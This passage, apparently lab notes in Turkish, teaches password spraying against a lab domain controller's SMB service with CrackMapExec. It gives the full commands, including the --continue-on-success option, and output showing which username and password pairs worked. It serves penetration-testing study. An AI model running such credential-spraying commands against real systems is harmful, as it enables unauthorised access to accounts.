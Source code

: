 

### Bir Liste İçeren Username'ler ile İki Password Kullanarak Password Attack

```
crackmapexec smb 10.129.203.121 -u noemi grace david carlos -p
Inlanefreight01! Inlanefreight02!

SMB 10.129.203.121 445 DC01 [*] Windows 10.0 Build
17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\noemi:Inlanefreight01! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\noemi:Inlanefreight02! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [+]
inlanefreight.htb\grace:Inlanefreight01!
```

Çıktıdan da görebileceğimiz gibi, yeşil renkle temsil edilen ve `[+]` çıktısıyla başlayan domain'de yalnızca bir geçerli kimlik bilgisi bulduk. Bununla birlikte, tüm hesaplar test edilmemiştir. İlk geçerli kimlik bilgileri bulunduktan sonra, `CME` `password spraying` işlemini `durdurur` çünkü bu genellikle domain numaralandırmasının geri kalanı için yeterlidir. Bazen, ayrıcalıklı bir hesap bulabileceğimiz için tüm hesapları test etmek daha iyidir. Bu amaçla, CME `--continue-on-success` seçeneği ile birlikte gelir:


### Continue on Success

```
crackmapexec smb 10.129.203.121 -u noemi grace david carlos -p
Inlanefreight01! Inlanefreight02! --continue-on-success

SMB 10.129.203.121 445 DC01 [*] Windows 10.0 Build
17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\noemi:Inlanefreight01! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\noemi:Inlanefreight02! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [+]
inlanefreight.htb\grace:Inlanefreight01!
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\grace:Inlanefreight02! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\david:Inlanefreight01! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\david:Inlanefreight02! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [-]
inlanefreight.htb\carlos:Inlanefreight01! STATUS_LOGON_FAILURE
SMB 10.129.203.121 445 DC01 [+]
inlanefreight.htb\carlos:Inlanefreight02!

```
